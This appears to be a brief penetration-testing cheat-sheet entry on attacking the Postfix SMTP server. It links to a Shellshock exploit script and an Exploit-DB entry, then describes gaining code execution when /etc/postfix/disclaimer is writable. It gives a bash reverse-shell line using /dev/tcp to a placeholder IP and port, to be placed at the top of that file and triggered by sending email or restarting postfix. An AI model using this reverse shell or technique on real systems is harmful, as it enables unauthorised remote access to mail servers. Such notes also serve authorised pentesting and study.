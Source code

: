 # postfix smtp

## Shellsock

* [https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py](https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py)
* [https://www.exploit-db.com/exploits/34896](https://www.exploit-db.com/exploits/34896)

## /etc/postfix/disclaimer RCE

REQUIREMENT: **`/etc/postfix/disclaimer` needs to writable**

```bash
# add shell to top of file
bash -i >& /dev/tcp/IP/PORT 0>&1

# invoke
send email via smtp
[OR] service postfix restart
```

